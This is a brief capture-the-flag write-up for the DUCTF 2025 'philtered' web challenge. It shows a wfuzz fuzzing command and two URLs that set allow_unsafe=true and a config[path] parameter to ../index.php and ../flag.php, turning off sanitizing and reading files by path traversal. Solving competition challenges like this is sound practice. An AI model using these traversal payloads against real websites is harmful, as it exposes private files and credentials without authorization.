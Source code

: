 Given a website along with a src folder

As preliminary check, try to fuzz, but it gives status 200 even if its not found, so let's skip it.
```
wfuzz -c --hc 404 -w /usr/share/wordlists/wfuzz/general/common.txt -w /usr/share/wordlists/wfuzz/general/extensions_common.txt https://web-philtered-0a2005e5b9bf.2025.ductf.net/FUZZFUZ2Z
```

Looking at the source, I figured that I need to access the php variable `flag`. But how? It's located in flag.php

This was done by my teammate, but I was on the right track. `allow_unsafe=true` disables the sanitizing, while config[path] access the file
```
https://web-philtered-0a2005e5b9bf.2025.ductf.net/index.php?allow_unsafe=true&config[path]=../index.php

https://web-philtered-0a2005e5b9bf.2025.ductf.net/index.php?allow_unsafe=true&config[path]=..%2Fflag.php
```
